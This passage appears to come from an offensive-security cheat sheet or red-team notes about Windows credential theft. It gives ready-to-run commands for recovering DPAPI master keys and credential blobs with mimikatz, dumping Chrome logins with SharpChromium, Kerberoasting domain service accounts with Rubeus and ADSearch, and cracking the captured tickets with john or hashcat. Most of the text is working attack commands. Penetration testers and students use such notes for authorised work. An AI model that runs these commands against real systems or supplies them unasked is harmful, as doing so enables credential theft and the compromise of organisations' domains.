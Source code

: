 The **pbData** field contains the encrypted data and the **guidMasterKey** contains the GUID of the key needed to decrypt it. The Master Key information is stored within the user's `AppData\Roaming\Microsoft\Protect` directory (where `S-1-5-21-*` is their SID).

```
ls C:\Users\pickle.rick\AppData\Roaming\Microsoft\Protect\S-1-5-21-<USER SID>
```

There are a few ways to get the Master Key. If you have access to a high integrity session, run `sekurlsa::dpapi`

If not you can access it using mimikatz and an exposed RPC service on the DC. Run `mimikatz dpapi::masterkey`, provide the path to the Master Key information and specify `/rpc`

```
 mimikatz dpapi::masterkey /in:C:\Users\pickle.rick\AppData\Roaming\Microsoft\Protect\S-1-5-21-<USER SID>\<guidMasterKey> /rpc
```

The **key** field is the key needed to decrypt the credential  `dpapi::cred`.

```
mimikatz dpapi::cred /in:C:\Users\pickle.rick\AppData\Local\Microsoft\Credentials\blob /masterkey:<master key>
```

#### Chrome Credentials

```
 execute-assembly C:\Tools\SharpChromium\SharpChromium.exe logins
```

### Kerberoast

`Rubeus kerberoast` can be used to perform the kerberoasting.  Running it without further arguments will roast every account in the domain that has an SPN (excluding krbtgt).

```
execute-assembly C:\Tools\Rubeus\Rubeus.exe kerberoast /simple /nowrap
```

To find kerberoast accounts

```
execute-assembly C:\Tools\ADSearch\ADSearch.exe --search "(&(sAMAccountType=805306368)(servicePrincipalName=*))"
```

for a specific account use `/user` argument.

```
 execute-assembly C:\Tools\Rubeus\Rubeus.exe kerberoast /user:svc_mssql /nowrap
```

#### cracking the hash

Use `--format=krb5tgs --wordlist=wordlist svc_mssql` for **john** or `-a 0 -m 13100 svc_mssql wordlist` for **hashcat**.

```
root@kali:~# john --format=krb5tgs --wordlist=wordlist svc_mssql
```
